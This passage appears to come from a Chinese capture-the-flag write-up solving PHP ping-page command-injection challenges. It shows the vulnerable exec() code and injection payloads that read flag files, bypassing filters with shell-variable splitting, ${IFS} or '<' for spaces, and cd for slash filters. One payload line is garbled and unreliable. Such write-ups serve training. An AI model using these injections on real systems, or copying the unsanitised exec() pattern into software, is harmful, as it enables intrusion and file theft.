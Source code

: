 然后输入：127.0.0.1;cat 24024115330223.php

页面没有显示，但是在源代码里面显示了flag

#### 过滤cat

题目：

```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?> 
```

和上一题目一样，只不过要防一下过滤

127.0.0.1;a=ca;b=t; a a ab flag_29869689610883.php

不错不错新思路

#### 过滤空格

在linux系统下：

1:<> 2:< 3:${IFS}这三个均可以表示空格

所以

127.0.0.1;ls

127.0.0.1;cat<flag_260652093720389.php

ybs

#### 过滤目录分隔符:/\

127.0.0.1;ls

127.0.0.1;cd flag_is_here;ls

127.0.0.1;cd flag_is_here;cat flag_25394867112070.php

也不知道为什么过滤，就好像过滤了一个寂寞

#### 过滤运算符:/(||&)/

127.0.0.1;ls

127.0.0.1;cat flag_13087279769836.php
